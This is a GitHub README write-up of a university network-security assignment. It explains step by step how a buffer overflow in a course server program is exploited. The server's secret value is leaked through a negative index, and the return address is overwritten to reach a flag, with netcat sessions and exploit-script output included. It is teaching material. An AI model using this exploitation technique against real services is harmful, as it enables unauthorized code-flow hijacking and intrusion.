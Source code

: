 # Buffer Overflow

[![License: IEEE](https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg)](http://creativecommons.org/licenses/by-nc-sa/4.0/)

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows. Notice that this repository is the course assignment of "Network Security 2018" in NCTU CS. If you are taking this course, please do not duplicate from this repository. All rights reserved.

---
## Goals

* Be able to identify and avoid buffer overflow vulnerabilities in native code.
* Understand the severity of buffer overflows and the necessity of standard defenses.
* Gain familiarity with machine architecture and assembly language.

---
## Description

This project will introduce you to control-flow hijacking vulnerabilities in application software, including buffer overflows. We have provided source code, binary executable, and the assembly code. Try to find vulnerability in these files and exploit it to get the secret flag. There are two flags: `flag1` & `flag2`. If you get `flag1`, you will score 100, `flag2` is just the bonus flag. Have fun!

---
## Solutions

* **Step 0** – Before starting, we should try to use the serve and observe vulnerabilities
    ```
    # Connect to the server 140.113.194.66:8787
    $ nc 140.113.194.66 8787
    ----------------------
            NS
    ----------------------
    1. View info
    2. Edit info
    3. Exit
    ----------------------
    Your choice:
    ```
    * In the program `proj3.c`, the main function will call function `func`.
        * In the function `func`, the variable `ret_addr` will store the return address of its function. This could be a key point to attack this program.
        * In the function `func`, we can see there is a switch-case a while loop and the third of case is going to compare `ret_addr` with variables `magic1` and `magic2` to decide which function to return.
    * Observe with the program `proj3.asm`.
        * The variable `ret_addr` in the `proj3.c` is store at `ebp-0x88` (line 688).
        * Above the declaration of `ret_addr` in the `proj3.c`, there is a variable `secret` with struct type `SEC`, which size is 32 bytes due to the operation system is 32-bits in the memory stack.
        * To explain the above mentioned, the struct of `SEC` include an array `info` with 32 elements which is 32 Bytes. After converting to hexadecimal-based, the size will become `0x20` which is mapped to `ebp-0x64` (line 702).
        * After the array info in the struct `SEC`, there is a 4 bytes unsigned long variable called `secret` which is a random number. The only way to change the content of `secret` is in the while loop which is in the function func.
    * In the program `proj3.c`, the function `edit_note` with a pointer `s`  as parameter which type `STU` is a struct includes variable `name` (16 bytes), `note` (16 bytes), `stuid` (16 bytes), and `age` (4 bytes). The total sizes are 44 bytes.
        * In the program `proj3.asm`, we can observe that the memory stack pushes 88 bytes for two persons `s` started from `ebp-0x60`.
* **Step 1** – Start to attack by using buffer overflow
    * By using buffer overflow to attack the server, we need to find out the input place that can let us input some payload to make the returned address be wrong (e.g., we want to get the content of the variable `magic1`, so that we need to return to `magic1`’s address).
    * In the program `proj3.c`, the function `menu` is the place to input some payload.
        * After connecting to the server, we can choose `2` to enter the mode of edit info. Then, the server will ask to enter the `secret` and there exists a severe problem.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice: 2
            Please input secret first:
            ```
        * The problem is that the value of integer in C can be positive or negative value. By entering a negative value, we can get the content outside the array’s index.
        * The more important thing is that the `secret` is stored behind the array `s[0]`. So that we can get the content of `secret` by entering `-1` as id in the mode of view info.
            ```
            # Connect to the server 140.113.194.66:8787
            $ nc 140.113.194.66 8787
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit 
            ----------------------
            Your choice: 1
            Please input id: -1
            Name: 1

            Note:
            Age: 2928863094
            ----------------------
                    NS
            ----------------------
            1. View info
            2. Edit info
            3. Exit
            ----------------------
            Your choice:
            ```
        * The value shows after age is the `secret`’s value (`2928863094`) because the address of `secret` is `ebp-0x60`. which is the top 4 bytes before `s[0]` from above 44 bytes. Notice that the `secret`’s value is a random number.
* **Step 2** – Enter into the edited mode
    * After entering into the edited mode, we can enter the `secret`’s value (`2928863094`) and choose one user arbitrarily.

        ```
        # Connect to the server 140.113.194.66:8787
        $ nc 140.113.194.66 8787
        ----------------------
                NS           
        ----------------------
        1. View info         
        2. Edit info         
        3. Exit              
        ----------------------
        Your choice: 1
        Please input id: -1
        Name: 1

        Note: 
        Age: 2928863094
        ----------------------
                NS           
        ----------------------
        1. View info         
        2. Edit info         
        3. Exit              
        ----------------------
        Your choice: 2
        Please input secret first: 2928863094
        Please input id: 1
        Input new note length:
        ```

    * In the program `proj3.c`, we found that we still cannot get the returned address we want if we only enter a positive integer less than 16 (line 124). Therefore, we enter `-1` because `-1` is a largest number in 2-based complement system so that we can trace back to the top of address in memory stack.
    * After entering `-1`, we are at the address of `note` in the struct `STU`. In that there is a variable name (16 bytes) before note, we can get the address of `note` from `s[0]` be `ebp-0x50`. Thus, we need to push 84 bytes ($5 \times 16 + 4 = 84$) to get the returned address.
* Step 3 – Get the `flag1`
    * Finally, we found that `magic1` will cover the original address at `080489e0` so that we can get the `flag1` after choose `3` to exit. Notice that the address need to be written in format of little endian.
    ![](https://i.imgur.com/PDDjfHZ.png)

---
## File Structure

* `proj3.c` - The program of server on `140.113.194.66:8787`
* `prog3` - The execution file of `proj3.c`
* `proj3.asm` - The assembly program of `proj3.c`
* `proj3.py` - The program using buffer overflow to attack
* `flag1.txt` - The content of `flag1`

---
## Execution

```bash
# Execute the main.py for hacking the cipher
$ python proj3.py
[+] Opening connection to 140.113.194.66 on port 8787: Done
2928863094
FLAG{G00D_J0b!}
[*] Closed connection to 140.113.194.66 port 8787

# Show the true plaintext
$ cat flag1.txt
FLAG{G00D_J0b!}
```

---
## TODO

(Update soon.)

---
## Contributor

* [David Lu](https://github.com/yungshenglu)

---
> This repository is the course assignment of "Network Security 2018" in NCTU CS. If you are taking this course, please do not duplicate from this repository. All rights reserved.

[![License: IEEE](https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg)](http://creativecommons.org/licenses/by-nc-sa/4.0/)